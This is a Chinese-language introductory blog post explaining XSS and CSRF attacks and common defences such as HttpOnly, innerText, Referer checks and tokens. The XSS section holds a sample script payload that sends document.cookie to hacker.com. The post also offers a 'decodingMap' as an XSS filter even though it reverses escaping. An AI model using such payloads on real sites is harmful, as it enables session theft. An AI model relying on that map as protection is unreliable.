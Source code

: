 ```yaml
---
title: 安全：XSS和CSRF
date: 2018-08-16 14:34:13
tags:
---
```

初次理解XSS和CSRF攻击
<!-- more -->
### XSS
全称 Cross Site Script 跨站脚本攻击，原本缩写为CSS，但为了区别于层叠样式表，在安全领域称为XSS。

XSS攻击是指攻击者在网站上注入恶意的客户端代码，通过恶意脚本对客户端网页进行篡改，从而在用户浏览网页时，对用户浏览器进行控制或者获取用户隐私数据的一种攻击方式。

有多种方式进行XSS攻击，但它们的共同点是：将一些隐私数据像cookie、session发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者使用的机器上进行一些恶意操作

常见的基于DOM的XSS攻击是指通过恶意脚本修改页面DOM结构，是纯粹发生在客户端的攻击，eg：
```
div.innerHTML = userComment

// userComment 内容是 <script>$.get('http://hacker.com?cookie=' + document.cookie)</script>
```
此时恶意就被执行了

### XSS防范
1、HttpOnly 这个属性可以防止XSS，它会禁止javascript脚本来访问cookie。

前面说道攻击者可以通过注入恶意脚本获取用户的cookie信息，通常cookie中都包含了用户的登录凭证信息，攻击者在获取到cookie之后，就可以发起cookie劫持攻击。所以严格来说HttpOnly并非阻止XSS攻击，而是阻止XSS攻击后的cookie劫持

2、不要使用innerHTML，改成innerText，此时script标签里的内容就会被当成文本，不执行。

如果一定要用innerHTML，使用字符过滤（XSS filter），在前端框架中一般都会有一份decodingMap，用于对用户输入的包含特殊字符进行过滤
```
const decodingMap = {
    '&lt;': '<',
    '&gt;': '>',
    '&quot;': '"',
    '&amp;': '&',
}
```

### CSRF
全称：Cross Site Request Forgery 即跨站请求伪造，是一种劫持受信任用户像服务器发送非预期请求的攻击方式

通常情况下，CSRF攻击是攻击者借助受害者的cookie骗取服务器信任，可以在受害者不知情的情况下以受害者名义伪造请求发送给受攻击的服务器，从而在并未授权的情况下执行在权限保护之下的操作

eg：

- 用户在 qq.com 登陆
- 用户切换到 hacker.com （恶意网站）
- hacker.com 发送一个 qq.com/add-friend 的请求，让用户添加hacker为好友
- 用户在不知情的情况下添加了hacker为好友
- 用户本身没有想发送这个请求，但hacker伪造了用户发请求的假象

由于 cookie 中包含了用户的认证信息，当用户访问攻击者准备的攻击环境时，攻击者就可以对服务器发起CSRF攻击。在攻击过程中，攻击者借助受害者的cookie骗取服务器信任，但并不能拿到cookie，也看不到cookie的内容，对于服务器返回的内容，由于同源策略的限制，也无法进行解析。所以，攻击者无法从返回结果中得到任何东西。所能做的就是给服务器发送请求，执行请求中的命令，在服务器直接改变数据的值，而非窃取服务器中的数据。

### CSRF防范
1、验证码
从上面的例子可以看出，CSRF攻击往往是在用户不知情的情况下构造了网络请求，而验证码会强制用户与应用进行交互，才能最终完成并提交请求。

2、Referer Check
根据HTTP协议，在HTTP头部有一个字段叫 Referer ，它记录着HTTP请求的来源地址，通过它可以检查请求是否来自合法的源。因此要防范CSRF攻击，只需验证它的 Referer 值，如果是以相同域名开头的，就是来自网站自己的请求，是合法的，如果是来自其他网站的，可以拒绝该请求

3、添加token验证
CSRF攻击能成功的原因在于攻击者可以伪造用户请求，该请求中所有的用户验证信息都存在于cookie中，要抵御该攻击，关键是要在请求中放入攻击者不能伪造的信息，并且该信息不能存在于cookie中。可以在HTTP请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证 token，从而判断是否是CSRF攻击

更多详细内容：https://mp.weixin.qq.com/s/Rf4dag7Z1rFNl4LxbAjyqw

